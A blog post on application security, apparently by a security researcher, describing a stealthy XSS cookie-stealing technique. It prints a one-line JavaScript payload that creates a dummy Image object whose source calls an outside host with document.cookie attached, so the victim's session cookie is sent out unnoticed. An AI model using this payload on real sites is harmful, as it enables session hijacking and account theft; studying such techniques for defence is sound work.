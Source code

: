 title: Stealth Cookie Stealing (XSS technique)
publish: True
categories: [application security]

Everyone knows what XSS is, right? Good, I'll spare you the definition. A common use for XSS is stealing cookies to hijack sessions and gain access to restricted web content. Cookie stealing is typically done by forcing a target's browser to issue some sort of GET request to a server controlled by the attacker which accepts the target's cookie as a parameter and processes it in some way. In most cases, when a cookie stealing XSS attack is successful, it generates a visual clue which can tip off the target. While it is too late at this point, stealth has been compromised, and could be the difference between the user keeping the session active, or clicking 'log out' and rendering your stolen cookie invalid.

<!-- READMORE -->

[![](/static/images/posts/cookie_monster.jpg)](/static/images/posts/cookie_monster.jpg)

About a year ago, I came up with a stealth technique for executing cookie stealing XSS attacks that I assumed was common knowledge. But after talking about the technique with several top web app security professionals, I realize that the technique may be more unique than I initially thought. Below is an example of the technique.

``` javascript
javascript:img=new Image();img.src="http://tools.lanmaster53.com/monster.php?cookie="+document.cookie;
```

For those that don't understand exactly what is going on here, basically, I'm using a dummy JavaScript image to launch a GET request. The first part of the script instantiates an image object, and the second part sets the source attribute of the image object. In this example, the source url is what you would use in any other cookie stealing attack. The key here is that once the source attribute is set, the browser fires off the request and stores the response in memory. I never use the instantiated image, the browser doesn't care, and the user is unaware that anything has happened. Stealth is maintained.

